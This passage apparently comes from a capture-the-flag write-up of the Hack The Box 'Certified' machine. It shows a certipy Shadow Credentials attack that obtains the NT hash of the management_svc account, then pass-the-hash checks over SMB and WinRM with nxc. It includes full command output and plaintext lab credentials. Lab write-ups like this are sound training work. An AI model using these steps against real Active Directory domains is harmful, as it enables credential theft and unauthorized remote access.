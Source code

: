 The first attempt fails due to **clock skew** (`KRB_AP_ERR_SKEW`), which we resolved by syncing time:

```bash
sudo ntpdate certified.htb
```

Re-running the attack succeeds yielding the NT hash for `management_svc`:

```bash
certipy shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '8eee13e9-fed7-34b7-0c15-791d8954fa48'
[*] Adding Key Credential with device ID '8eee13e9-fed7-34b7-0c15-791d8954fa48' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '8eee13e9-fed7-34b7-0c15-791d8954fa48' to the Key Credentials for 'management_svc'
/home/truffle/boxes/certified/certipy-venv/lib/python3.11/site-packages/certipy/lib/certificate.py:233: CryptographyDeprecationWarning: Parsed a serial number which wasn't positive (i.e., it
was negative or zero), which is disallowed by RFC 5280. Loading this certificate will cause an exception in a future release of cryptography.
  return x509.load_der_x509_certificate(certificate)
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

This gives us the NTLM hash: 
```
a091c1832bcdd4677c28b5a6a1295584
```

We can verify access with:
```bash
nxc smb certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
[*] Initializing SMB protocol database
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.231.186  445    DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584
```

We'll check if we get WinRM access:
```bash
nxc winrm certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
WINRM 10.129.231.186 5985 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb) 
WINRM 10.129.231.186 5985 DC01 [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
```
